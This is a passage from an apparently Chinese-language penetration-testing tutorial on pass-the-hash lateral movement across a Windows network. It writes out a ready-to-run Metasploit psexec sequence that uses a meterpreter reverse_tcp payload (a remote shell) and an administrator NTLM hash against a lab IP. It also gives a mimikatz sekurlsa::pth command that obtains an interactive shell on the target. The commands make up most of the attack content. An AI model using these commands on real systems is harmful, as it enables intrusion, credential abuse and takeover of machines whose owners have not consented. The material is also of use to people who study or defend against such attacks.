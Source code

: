 注：实际内网使用 MSF 来进行哈希碰撞，需要修改 payload，修改为**正向的payload**。

## 利用哈希传递进行横向移动

利用哈希传递进行横向移动的工具有很多，比如 MSF、mimikatz、impacket 里面的 psexec、smbexec、wmiexec 等脚本均可以利用密码的 Hash 来进行横向移动。

### 1.MSF 进行哈希传递攻击

我们可以使用 MSF 里面的 `exploit/windows/smb/psexec` 模块进行哈希传递，当rhosts 参数指定为具体的 ip 时，就可以获得指定目标 ip 的权限！

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set rhosts 10.211.55.7
set smbuser administrator
set smbpass aada8eda23213c027743e6c498d751aa:329153f560eb329c0e1deea55e88a1e9
run
```

注：实际内网使用 MSF 来进行哈希传递的话，需要修改 payload，修改为**正向的payload**。

### 2.mimikatz 进行哈希传递攻击

我们也可以使用 mimikatz 执行如下命令进行哈希传递横向移动，获得目标主机一个可交互式的 shell。

```
privilege::debug
sekurlsa::pth /user:administrator /domain:10.211.55.7 /ntlm:329153f560eb329c0e1deea55e88a1e9
```

如图所示，使用 mimikatz 进行哈希传递横向移动，获得目标主机一个可交互式的shell。

![截图](2e165165e07157c20b60d7eb08f96a44.png)
